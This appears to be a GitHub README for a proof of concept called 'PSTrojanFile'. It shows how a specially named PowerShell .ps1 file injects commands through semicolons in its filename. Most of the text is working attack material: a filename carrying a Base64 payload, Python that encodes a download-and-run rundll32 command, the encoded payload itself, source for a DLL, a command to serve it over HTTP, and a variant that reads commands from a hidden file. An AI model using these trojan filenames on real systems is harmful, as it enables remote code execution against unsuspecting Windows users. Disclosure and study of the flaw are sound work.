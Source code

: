 # PSTrojanFile
Windows PowerShell Filename Code Execution POC

Dusted off and improved: <br> 
1) Execute a remote DLL using rundll32
2) Execute an unintended secondary PS1 script or hidden text-file
3) Updated the PS1 Trojan Filename Creator Python3 Script

First reported to Microsoft back in 2019 yet remains unfixed as of the time of this writing. <br>  
Remote code execution via a specially crafted filename. <br>  

The flaw is due to semicolon ";" we can decode a Base64 command and execute straight from the PS1 filename or just exec commands.

Test;POweRsHeLL -e [BASE64 UTF-16LE PAYLOAD];.ps1 <br>  

Call commands straight away <br>  

"Testing;saps (gc -) PoC.ps1"

Vectors: double click, drag and drop to PS shortcut
Exploit Requirements: <br>  

a) PowerShell PS1 files must be set to open with PowerShell as the default program
b) Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
c) User must double-click or drag and drop the maliciously named PS1 script

Leverages alternate shorthand PS commands like "saps", "gc" start a process and get-content etc.

DLL Execution Example: create a trojan PS1 file that will try to download and execute a remote DLL namec "1.d"

Python: <br>  
from base64 import b64encode <br>  

b64encode("saps  http[]//127.0.0.1/1.d;sleep -s 2;rundll32 $HOME\\Downloads\\1.d, 0".encode('UTF-16LE')) <br>  

cwBhAHAAcwAgACAAaAB0AHQAcAA6AC8ALwAxADIANwAuADAALgAwAC4AMQAvADEALgBkADsAcwBsAGUAZQBwACAALQBzACAAMgA7AHIAdQBuAGQAbABsADMAMgAgACQASABPAE0ARQBcAEQAbwB3AG4AbABvAGEAZABzAFwAMQAuAGQALAAgADAA

DLL Code: <br>  

#include <windows.h> <br> 

//gcc -shared -o mydll.dll mydll.c -m32 <br>  

//hyp3rlinx <br>  

void evilo(void){ <br>  

MessageBox(0,"Filename Remote Code Execution PoC\r\nBy hyp3rlinx","M$ Windows PowerShell",1); <br>  

} <br>  

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved){ <br>  

evilo(); <br>  

return 0; <br>  

} <br>  


python -m http.server 80

Double click the trojan PS1 file. <br>  


Text-file Based Code Execution Example: <br>  

Create a PS1 file with name including saps "start a process" and gc "get-content", this will read commands from hidden file. <br>  

"Test;saps (gc -) PoC.ps1" <br>  

Create hidden: attrib +s +h "-" <br>  

Double click or drag and drop.



Video PoC:

